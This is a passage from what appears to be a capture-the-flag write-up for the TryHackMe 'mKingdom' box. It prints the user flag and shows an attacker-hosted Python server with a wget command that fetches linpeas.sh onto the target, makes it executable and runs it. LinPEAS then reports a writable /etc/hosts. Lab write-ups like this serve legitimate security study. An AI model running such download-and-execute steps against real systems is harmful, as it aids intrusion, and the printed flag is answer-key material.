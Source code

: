 Now we try switch user and we copy the user flag to /tmp :

```
mario@mkingdom:~$ cat user.txt 
cat: user.txt: Permission denied
mario@mkingdom:~$ cp user.txt /tmp
mario@mkingdom:~$ cd ..
mario@mkingdom:/home$ cd ..
mario@mkingdom:/$ cd tmp
mario@mkingdom:/tmp$ ls
user.txt
mario@mkingdom:/tmp$ cat user.txt 
thm{030a769febb1b3291da1375234b84283}
```

## Mario to Root

### LinPEAS

Let's copy linpeas to the target, we host a simple [[Python]] [[Server]] :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

Now we download and make it executable :

```bash
mario@mkingdom:/tmp$ wget http://10.8.162.183/linpeas.sh /tmp
--2025-07-24 10:14:39--  http://10.8.162.183/linpeas.sh
Connecting to 10.8.162.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 954,437      625KB/s   in 1.5s   

2025-07-24 10:14:41 (625 KB/s) - ‘linpeas.sh’ saved [954437/954437]

mario@mkingdom:/tmp$ ls
linpeas.sh  user.txt
mario@mkingdom:/tmp$ chmod +x linpeas.sh 

```

And run it :

```bash
mario@mkingdom:/tmp$ ./linpeas.sh 

╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                   
  Group mario:                                                                                                                     
/tmp/linpeas.sh                                                                                                                    
/etc/hosts

```
